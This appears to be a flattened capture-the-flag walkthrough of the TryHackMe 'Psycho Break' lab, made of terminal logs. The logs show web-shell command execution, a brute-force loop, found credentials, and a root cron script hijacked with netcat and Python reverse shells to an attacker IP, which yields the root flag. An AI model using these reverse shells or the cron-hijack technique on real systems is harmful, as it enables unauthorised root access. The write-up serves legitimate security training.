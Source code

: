 ```html
  <!-- There is something called "shell" on current page maybe that'll help you to get out of here !!!-->

  <!-- To find more about the Spider Lady visit https://theevilwithin.fandom.com/wiki/Laura_(Creature) -->

  http://10.10.172.137/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls
  http://10.10.172.137/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls%20..
  680e89809965ec41e64dc7e447f175ab be8bc662d1e36575a52da40beba38275 index.php
  http://10.10.172.137/abandonedRoom/680e89809965ec41e64dc7e447f175ab/
  bibo318@parrot:~/CTFs/tryhackme/Psycho Break$ cat you_made_it.txt You made it.
  Escaping from Laura is not easy, good job ....
  bibo318@parrot:~/CTFs/tryhackme/Psycho Break$ unzip helpme.zip Archive: helpme.zip
  inflating: helpme.txt inflating: Table.jpg bibo318@parrot:~/CTFs/tryhackme/Psycho
  Break$ cat helpme.txt From Joseph, Who ever sees this message "HELP Me". Ruvik
  locked me up in this cell. Get the key on the table and unlock this cell. I'll
  tell you what happened when I am out of this cell. SHOWME
  bibo318@parrot:~/CTFs/tryhackme/Psycho Break$ cat thankyou.txt From joseph, Thank
  you so much for freeing me out of this cell. Ruvik is nor good, he told me
  that his going to kill sebastian and next would be me. You got to help
  Sebastian ... I think you might find Sebastian at the Victoriano Estate. This
  note I managed to grab from Ruvik might help you get inn to the Victoriano
  Estate. But for some reason there is my name listed on the note which I don't
  have a clue. -------------------------------------------- // \\ || (NOTE) FTP
  Details || || ================== || || || || USER : joseph || || PASSWORD :
  intotheterror445 || || || \\ // --------------------------------------------
  Good luck, Be carefull !!! bibo318@parrot:~/CTFs/tryhackme/Psycho Break$ chmod +x
  program bibo318@parrot:~/CTFs/tryhackme/Psycho Break$ strings random.dic >
  brute.txt bibo318@parrot:~/CTFs/tryhackme/Psycho Break$ while read LINE; do
  ./program "$LINE"; done < brute.txt | grep Correct kidman => Correct
  bibo318@parrot:~/CTFs/tryhackme/Psycho Break$ ./program kidman kidman => Correct
  Well Done !!! Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3
  444 7777 7777 666 7777 8 777 2 66 4 33 https://keypad-translator.glitch.me/ k
  i d m a n s p a s s w o r d i s s o s t r a n g e KIDMANSPASSWORDISSOSTRANGE
  kidman kidman@evilwithin:~$ cat user.txt 4C72A4EF8E6FED69C72B4D58431C4254
  kidman@evilwithin:~$ cat /etc/crontab # /etc/crontab: system-wide crontab #
  Unlike any other crontab you don't have to run the `crontab' # command to
  install the new version when you edit this file # and files in /etc/cron.d.
  These files also have username fields, # that none of the other crontabs do.
  SHELL=/bin/sh
  PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin # m h dom
  mon dow user command 17 * * * * root cd / && run-parts --report
  /etc/cron.hourly 25 6 * * * root test -x /usr/sbin/anacron || ( cd / &&
  run-parts --report /etc/cron.daily ) 47 6 * * 7 root test -x /usr/sbin/anacron
  || ( cd / && run-parts --report /etc/cron.weekly ) 52 6 1 * * root test -x
  /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly ) */2 * *
  * * root python3 /var/.the_eye_of_ruvik.py rm /tmp/f;mkfifo /tmp/f;cat
  /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9001 >/tmp/f import
  socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",9001));os.dup2(s.fileno(),0);
  os.dup2(s.fileno(),1);
  os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
  bibo318@parrot:~/CTFs/tryhackme/Psycho Break$ nc -lnvp 9001 Listening on 0.0.0.0
  9001 Connection received on 10.10.172.137 57536 bash: cannot set terminal
  process group (1763): Inappropriate ioctl for device bash: no job control in
  this shell root@evilwithin:~# cat /root/root.txt cat /root/root.txt
  BA33BDF5B8A3BFC431322F7D13F3361E root@evilwithin:~#
</p>
```
